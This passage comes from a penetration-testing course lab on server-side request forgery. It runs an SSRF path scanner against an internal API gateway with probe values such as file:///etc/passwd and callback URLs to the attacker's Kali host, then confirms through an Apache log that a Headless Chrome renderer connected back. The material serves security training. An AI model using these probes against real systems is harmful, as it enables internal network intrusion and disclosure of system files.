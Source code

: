 Let's try running this new wordlist through our script, making sure to update the SSRF target value to the new URL.

```
kali@kali:~$ ./ssrf_path_scanner.py -t http://apigateway:8000/files/import -s http://172.16.16.5:9000/api/render -p paths2.txt --timeout 5
?data=foobar     {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?file=file:///etc/passwd         {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?url=http://192.168.118.3/render/url    OPEN - returned permission error, therefore valid resource
?input=foobar    {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?target=http://192.168.118.3/render/target      {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
```

> Listing 41 - Running enumeration with paths2.txt

It seems the _url_ parameter was a valid request based on the permission error message. Let's check if it actually connected back to our Kali host.

```
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:12:09:35 -0500] "GET /render/url HTTP/1.1" 404 492 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
```

> Listing 42 - Apache access.log contents

Not only did we receive a request from the render service, _Headless Chrome_[2](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fn-local_id_422-2) made the request.

#### Exercises

1. Using the scripts created so far as a base, create the SSRF path scanner script.
2. Run the script as detailed in this section and verify the render service can connect back to your Kali VM.

1

(Daniel Miessler, et al, 2017),[https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt) [↩︎](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fnref-local_id_422-1)

2

(Google, 2021), [https://developers.google.com/web/updates/2017/04/headless-chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) [↩︎](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fnref-local_id_422-2)

## 9.6. Exploiting Headless Chrome
